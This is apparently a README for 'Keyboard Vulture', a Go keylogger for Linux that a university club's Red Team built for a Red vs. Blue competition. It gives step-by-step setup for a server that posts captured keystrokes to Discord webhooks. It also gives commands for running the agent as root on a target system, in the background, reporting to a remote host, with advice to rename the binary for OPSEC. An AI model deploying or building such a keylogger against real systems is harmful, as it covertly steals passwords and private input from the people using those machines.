 # Keyboard-Vulture
<p align="center">
  <img src="https://cdn.mos.cms.futurecdn.net/ywDAmc9ikSaceqm7taFSuP.jpg" />
</p>

## What is this tool?
Keyboard Vulture is a basic Linux keylogger written in Go. When run as root, it captures keyboard input and sends it to a server over SYSLOG. The server then posts the keystrokes to Discord using webhooks. 

## Why does this tool exist?
This tool is a part of the [Sinister Scripts](https://github.com/nos3curity/Sinister-Scripts) suite of homegrown APT tools developed by the [Cal Poly Pomona SWIFT](https://www.calpolyswift.org/) club Red Team for the Red vs. Blue competition. Keyboard Vulture is only made for this single purpose and if you plan on using it for something actually malicious, maybe reconsider your life choices.

## How do you set up the server?
First, create a channel for every team in your Discord server and restrict access to them to just Red Team. Go to each channel's settings and create webhook URL's.

Second, create the `./Server/.teams` file with Discord webhooks for every team's channel with the following syntax:
```
TEAM1=https://discord.com/api/webhooks/...
TEAM2=https://discord.com/api/webhooks/...
TEAM3=https://discord.com/api/webhooks/...
TEAM4=https://discord.com/api/webhooks/...
```

Lastly, either use a prebuilt binary from the latest release or build it from source as such:
```
cd Server && go build
```

You can now start the server as such or add the optional command line flags from `./Server -h`:
```
./Server
```

## How do you set up the agent?
First, either grab a prebuilt binary or build it from source as such:
```
cd Agent && go build
```

Once you transfer the binary to the target system, ensure you are running it as root like the following (make sure to rename the file for OPSEC):
```
chmod +x Agent
./Agent -s 192.168.10.10 -p 80 -t 1 &
```
- `-s` specifies the IP of the Vulture server
- `-p` specifies the port of the Vulture server
- `-t` specifies the team number for the webhook
- ` &` sends the process to the background

That's it. You should now be all set. Keystrokes get sent home when ENTER is pressed on the keyboard.